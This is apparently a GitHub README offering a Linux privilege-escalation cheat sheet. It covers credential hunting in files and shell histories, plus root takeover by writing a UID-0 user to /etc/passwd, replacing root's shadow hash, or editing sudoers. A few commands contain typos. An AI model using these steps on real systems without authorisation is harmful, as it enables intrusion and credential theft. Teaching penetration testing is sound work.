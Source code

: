 # Linux-Privilege-Escalation-Basics
Simple and accurate guide for linux privilege escalation tactics 

# Privilege Escalation Methods

- Basic System Enumeration
- Bash History
- OpenVPN Credentials
- Writable Password Files / Sudoers
- SSH Private Keys 
- Kernel Expliots
- Sudo -l 
- Sudo CVE 


# Basic System Enumeration
Structure : Linux Command # <Comment / Tip>
```
uname -a | What OS kernel are we using?
hostname | What is my hostname?
lscpu | What is our CPU architecture?
ls /home | Any Users? Can we access their home directories?
ls /var/www/html | Any web config files? Do they contain DB or user credentials?
ps aux | grep root | What services are running as root? Any cron jobs running specific files as root? Can we write to those files? 
netstat -tulpn | What is running? Are they bound to local host but not from the public? Possible port forwarding
ifconfig | What is our IP? Are we dual-homed?
find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; | Any files that contains clear-text credentials?
locate pass | more | Any files with the name pass?

```
# Bash History

```
history | Any clear-text credentials? Any command for logging into services with the credentials?
cat /home/<user>/.bash_history | Can we see CLI history of other users?

```

# OpenVPN Credentials

```
locate *.ovpn | Any OpenVPN files with clear-text credentials?

```

# Writable Password Files

```
ls -la /etc/passwd | Do we have write access to passwd?
If write access is enabled on /etc/passwd | Add new user with UID & GID of 0 (Root) OR Remove the root password

   echo 'hacker::0:0::/root:/bin/bash' >> /etc/passwd
   su - hacker
   id && whoami
   
OR
   
  vi /etc/passwd
  Remote X (Password Holder) for root
  wg!
  su root
  id && whoami
  
ls -la /etc/shadow | Do we have write access to shadow?
If write access is enabled on /etc/shadow | Generate new password hash and replace root's password

   Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
   Copy the output
   vi /etc/shadow
   Replace root's hash with the output that you generated
   wq!
   su root | Provide the new root password you generated (Example: NewRootPassword)
   id && whoami
  
ls -la /etc/sudoers | Do we have write access to /etc/sudoers?
If write access is enabled on /etc/sudoers | Add new sudo entry

   echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers | Replace "Username" with your current user (Example: www-data)
   sudo su
   id && whoami

   ```
